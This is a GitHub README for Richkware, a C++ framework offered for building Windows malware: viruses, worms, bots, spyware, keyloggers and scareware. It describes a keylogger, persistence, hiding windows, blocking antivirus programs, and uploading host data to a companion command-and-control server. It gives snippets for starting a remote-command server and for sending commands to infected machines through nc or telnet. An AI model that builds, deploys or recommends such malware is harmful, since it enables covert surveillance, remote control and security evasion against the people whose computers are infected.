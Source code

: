 # Richkware

Framework for building Windows malware, written in C++.

## Description

It's a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application 
to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for management of hosts where is present a malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that obtains list of all hosts and is able to send commands to do at each of them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
if you deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you could use:

        int main() {
               Richkware richkware("Richk","DefaultPass","192.168.99.100", "8080");
                ...
                return 0;
            }
        
that get secure key from Richkware-Manager-Server and set it as encryption key.
DefaultPass is used as temporary encryption key to ensure a safety communication with RMS and if this app cannot reach the RMS, then it will use DefaultPass as encryption key.


###Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Else, if you didn't deploy [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you could use: 
         
     Richkware richkware("Richk","richktest");
         
 it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage

### Remotely Command Execution

Call function **StartServer** in the main, it starts server on port 8000.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)

### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000
	
after the answer from the server about establishment of connection, write:
    
    [[1]]COMMAND
    
where COMMAND is the command to execute to the pc where server is running.

### Connect using terminal in Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000

after the answer from the server about establishment of connection, write:
    
    [[1]]COMMAND
    
where COMMAND is the command to execute to the pc where server is running.
